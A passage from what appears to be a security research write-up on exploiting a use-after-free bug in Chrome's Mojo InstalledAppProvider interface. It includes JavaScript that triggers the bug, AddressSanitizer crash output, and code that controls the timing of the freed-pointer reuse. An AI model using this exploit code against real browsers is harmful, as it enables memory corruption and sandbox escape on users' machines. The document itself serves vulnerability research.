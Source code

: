 ```javascript
    p.filterInstalledApps([], new url.mojom.Url({url: window.location.href}));
    p.filterInstalledApps([], new url.mojom.Url({url: window.location.href}));
  }), 2000);
} else {
  var frames = new Array(4).fill(null).map(() => allocate_rfh());
  setTimeout(() => frames.map((f) => deallocate_rfh(f)), 15000);
}
setTimeout(() => window.location.reload(), 16000);
```

After a few refreshes, we finally hit the bug:

```
==8779==ERROR: AddressSanitizer: heap-use-after-free on address 0x620000067080 at pc 0x7f1aafa73589 bp 0x7ffed99af5d0 sp 0x7ffed99af5c8
READ of size 8 at 0x620000067080 thread T0 (chrome)
```

### Removing the Race

For exploitation, we'd like to have more control over when the UAF is triggered. If we wrote our exploit in native code, we would be able to keep the Mojo connection alive even after the subframe is freed, because these frames are running in the same process. However, we'd ideally like to stay in JavaScript.

We soon discovered the MojoJSTest bindings, which expose a few extra Mojo features to JavaScript. The relevant feature for our exploit is `MojoInterfaceInterceptor`, which is capable of intercepting `Mojo.bindInterface` calls from other frames in the same-process. We can use this to pass the endpoint handle to the parent frame before the child frame is destructed. Here's how this looks:

```javascript
var kPwnInterfaceName = "pwn";

// runs in the child frame
function sendPtr() {
  var pipe = Mojo.createMessagePipe();
  // bind the InstalledAppProvider with the child rfh
  Mojo.bindInterface(blink.mojom.InstalledAppProvider.name,
    pipe.handle1, "context", true);

  // pass the endpoint handle to the parent frame
  Mojo.bindInterface(kPwnInterfaceName, pipe.handle0, "process");
}

// runs in the parent frame
function getFreedPtr() {
  return new Promise(function (resolve, reject) {
    var frame = allocateRFH(window.location.href + "#child"); // designate the child by hash

    // intercept bindInterface calls for this process to accept the handle from the child
    let interceptor = new MojoInterfaceInterceptor(kPwnInterfaceName, "process");
    interceptor.oninterfacerequest = function(e) {
      interceptor.stop();

      // bind and return the remote
      var provider_ptr = new blink.mojom.InstalledAppProviderPtr(e.handle);
      freeRFH(frame);
      resolve(provider_ptr);
    }
    interceptor.start();
  });
}
```
